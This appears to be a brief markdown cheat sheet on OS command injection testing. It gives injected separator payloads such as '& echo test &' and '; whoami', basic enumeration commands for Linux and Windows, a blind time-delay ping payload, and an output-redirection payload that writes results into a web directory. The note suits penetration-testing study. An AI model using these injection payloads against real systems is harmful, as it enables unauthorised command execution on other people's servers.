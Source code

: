 # OS Command Injection
We can test with `&` character, which is CLI separator. For example:
```
& echo test &
```

Or `; whoami`
Good idea to use fuzzing paylaods in Burp Intruder

## Basic Enumeration
Linux:
* whoami
* uname -a
* ifconfig
* netstat -an
* ps -ef

Windows:
* whoami
* ver
* ipconfig /all
* netstat -an
* tasklist

## Blind OSI
### Time-delay
`& ping -c 10 127.0.0.1 &`  
Also we can use || in place of ; or &

### Output redirection
We can redirect output of command to some file we can have access
```
& whoami > /var/www/static/whoami.txt &
```
Then we just access the file whoami.txt from browser
